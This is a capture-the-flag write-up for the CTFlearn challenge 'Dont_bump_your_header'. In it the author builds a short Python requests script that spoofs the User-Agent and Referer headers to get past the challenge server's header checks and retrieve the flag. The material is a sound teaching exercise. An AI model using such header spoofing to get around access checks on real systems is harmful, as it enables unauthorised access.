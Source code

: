 # Writeup for [Dont\_bump\_your\_header](https://ctflearn.com/challenge/109) Box

When we open the provided link, we get an error message...  
![](./img/1.jpg)  

This speaks of a User-Agent which is part of an HTTP Header. When we take a look at the source code, we can clearly see a comment that we can potentially use for the User-Agent.  
![](./img/2.jpg)
We could use the curl command to spoof our User-Agent but I feel like creating an exploit script for this box to sharpen my programming skills. I am going to use [Python](https://www.python.org/) and the built-in requests module.  

First of all, lets create a basic script to do a GET request on the website.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

s = requests.get(url)

print(s.text)
```  

When we run this script, we should be able to see the same error message we got when accessing the website. Since we got that comment from the source code, we should try to use that as our User-Agent.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'
user_agent = 'Sup3rS3cr3tAg3nt'

headers = {
        'User-Agent' : user_agent,
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

When we run this script, we get another error...  
![](./img/3.jpg)  
I got super confused and thought that there was an error in my request but it seemed that it was working. So what was the issue? When you read the error message carefully, it says that we did not come from `awesomesauce.com`. So that was the issue right there. There is an entry called 'Referer' on an HTTP Header that denotes where the request came from, so we can set this Referer entry to be `awesomesauce.com`and that should resolve our issue.  
This is what the final script should look like  

```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

user_agent = 'Sup3rS3cr3tAg3nt'
referer = 'awesomesauce.com'

headers = {
        'User-Agent' : user_agent,
        'Referer'   : referer
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

Run the script and get that flag.

